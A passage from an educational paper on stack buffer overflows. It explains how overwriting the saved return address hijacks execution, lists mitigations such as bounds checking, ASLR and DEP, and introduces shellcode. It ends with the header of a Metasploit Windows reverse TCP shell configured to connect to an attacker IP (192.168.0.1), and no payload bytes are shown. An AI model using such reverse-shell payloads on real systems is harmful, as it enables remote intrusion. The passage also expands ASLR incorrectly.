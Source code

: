 As you can see the same memory segments referenced earlier in program execution (in the ESP register is referenced while the function is being executed) are being overwritten. Why is this significant? The address 0x0804843d in the offset 0xbffff500 points to the next function to be executed once the function completes (the address to be pointed to be the EIP). When the buffer is overflowed this address is overwritten with 0x44, which is hexadecimal for the letter “D”. Now that we know the buffer overflow is overwriting this address, we can take control and set the memory address to whatever we want, thus controlling the flow of execution of the program. The next step would be to point the program to an offset in memory that contained instructions to execute. These instructions are known as “shellcode” that will be covered in the next section. This results in arbitrary code execution using the provided program in an unintended fashion. [1][2] 

## 2.4 Stack Overflow Mitigation 

Buffer overflow attack mitigation strategies pertain to a couple of different perspectives. From the programming standpoint dangerous functions such as “gets”, “strcpy” etc... should not be used. Null terminating functions should be used in conjunction with bounds checking which would provide limitations to the amount of data that can be written into the buffer. This would thwart a buffer overflow attack by the attacker not being able to overflow the buffer in question. Operating System mitigations have been set into place which can provide difficulty for buffer overflow attacks to be successful. These include ASLR (Address Stack Layout Randomization) which provides randomizing of stack based addresses to make it harder for the attacker to provide a proper offset in memory to execute first shellcode based instructions. Others include non-executable stack, which in turn would result in code upon the stack not being able to be executed. Common practices of this are DEP (Data Execution Prevention) which is implemented in Windows based systems to prevent execution of data through data execution vulnerabilities.[5][6][1] 

##  3.0 Shellcode 

In order for code execution to take place once a vulnerability has been identified in a target application, the attacker has to provide instructions for the program to execute through medium that brings those instructions into memory, which can then be referenced. These instructions consist of System Calls or “syscalls” which are call based interrupts made from user space to kernel space to make use of the operating system API to conduct certain functionality, as well as register manipulation to achieve certain functionality. This results in functionality being written in assembler to provide access to such low level function calls. This assembler is then converted into its hexadecimal opcode representation to be used within the context of an exploit, such as being set onto the stack to be executed in a buffer overflow attack. [1] 

## 3.1 Shellcode Example 

The following shellcode provides a reverse command shell over TCP to an attacker's IP address at 192.168.0.1: 

```
/* 

- 
*  windows/shell/reverse_tcp - 290 bytes (stage 1) 

- 
*  http://www.metasploit.com 

- 
*  VERBOSE=false, LHOST=192.168.0.1, LPORT=80, 

- 
*  ReverseConnectRetries=5, ReverseAllowProxy=false, 

- 
*  EXITFUNC=process, PrependMigrate=false, 

- 
*  InitialAutoRunScript=, AutoRunScript= */ 

```